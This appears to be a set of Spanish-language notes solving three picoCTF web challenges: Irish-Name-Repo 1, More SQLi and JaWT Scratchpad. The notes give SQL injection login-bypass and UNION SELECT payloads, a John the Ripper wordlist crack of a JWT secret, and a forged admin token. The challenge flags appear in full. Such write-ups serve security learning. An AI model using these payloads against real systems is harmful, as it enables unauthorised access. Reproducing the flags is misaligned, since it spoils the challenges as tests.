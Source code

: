 #  01 Irish-Name-Repo 1
# DESC
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
# SOLUCION
username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
````` python

picoCTF{s0m3_SQL_f8adf3fb}
````` 


#  2 More SQLi
# DESC
#### Description

Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

# SOLUCION
ME LOGE CON ADMIN
PASSWORD ' or 1 == 1;'
USE ESTOS COMANDOS 
Algiers' union SELECT sql,2,3 from sqlite_master;
'union select id,flag,3 from more_table;

````` python
|City|Address|Phone|
|---|---|---|
|1|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}|3|
|2|If you are here, you must have seen it|
````` 




#  03 - JaWT Scratchpad
# DESC

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210
# SOLUCION


Usamos este comando para usar el ataque de diccionario en el jwt que tenemos
john hash -w-/usr/share/wordlists/rockyou.txt

y este comando os da la palabra ilovepico 
 y despues usamos las cookies las metemos a jet.io y cambiamos el usuario de jhn por admin y refrescamos y listo 
 
 ````` python

picoCTF{jawt_was_just_what_you_thought_44c752f5}
````` 




#  0
# DESC


# SOLUCION

````` python

````` 
